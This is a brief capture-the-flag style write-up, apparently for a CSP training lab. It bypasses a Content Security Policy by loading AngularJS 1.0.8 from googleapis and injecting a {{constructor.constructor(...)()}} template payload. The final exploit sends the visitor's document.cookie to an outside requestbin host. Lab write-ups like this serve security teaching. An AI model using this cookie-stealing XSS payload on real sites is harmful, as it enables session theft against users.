 # Exploit

Nothing on the first page is exploitable

On the other, though, both name and comment is exploitable.

Load angularjs from ajax.google.com, then execute code.

From the jsonp repository:
`ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>
`

we can download angular, then open a div with malicious code:

`script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app"ng-csp ng-click=$event.view.alert(1337)>`

But this violates csp style...

but heeey with angular we can put code in `{{ }}`. 
Then I discovered that `{{constructor.constructor("alert(1)")()}}` is a valid payload!

Exploit:

```html
<script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script><div ng-app ng-csp ng-click={{constructor.constructor("window.location.href='http://requestbin.net/r/fohb344c?cookie='+document.cookie")()}}>

```

this is the link to visit:

`https://csp.training.jinblack.it/poll/3f4d1908469b4f648aee3ca0910b6b58`